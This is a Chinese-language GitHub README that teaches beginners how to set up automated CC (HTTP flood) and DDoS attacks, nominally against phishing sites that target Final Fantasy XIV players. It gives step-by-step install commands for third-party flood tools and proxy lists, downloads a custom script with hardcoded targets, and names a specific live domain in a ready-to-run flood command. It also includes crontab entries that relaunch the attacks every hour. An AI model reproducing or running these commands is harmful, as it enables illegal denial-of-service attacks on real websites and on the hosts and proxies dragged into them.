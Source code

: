 # Nyaa:Automata
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
    apt update -y
    apt install git vim zip python3 python3-pip -y
    wget https://nyaacaster.github.io/FisherHunter/overload_py/requirements.txt
    pip3 install -r requirements.txt

## 安装CC-attack

    git clone https://github.com/Leeon123/CC-attack.git

## 获取Proxy-List（cc的喂料包，这有点大）
    git clone https://github.com/ShiftyTR/Proxy-List.git

## 安装overload（ddos工具）
    git clone https://github.com/7zx/overload.git
    cd overload/
    wget https://nyaacaster.github.io/FisherHunter/overload_py/overload_p.py
    cd ..

* overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整


## 如果要单独一次性执行cc
    python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/Proxy-List/socks4.txt -v 4 -s 30

* 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行ddos
    python3 ~/overload/overload_p.py

* 自己修改建立了新脚本后执行自己的就可以


## 部署订制执行计划
    crontab -e

* (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
    0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/Proxy-List/socks4.txt -v 4 -s 30
    30 * * * * python3 ~/overload/overload_p.py

* 编辑完成后按esc退出编辑
* 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
* 时间计划可以自己安排，最好跟我的0和30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab 命令|菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）
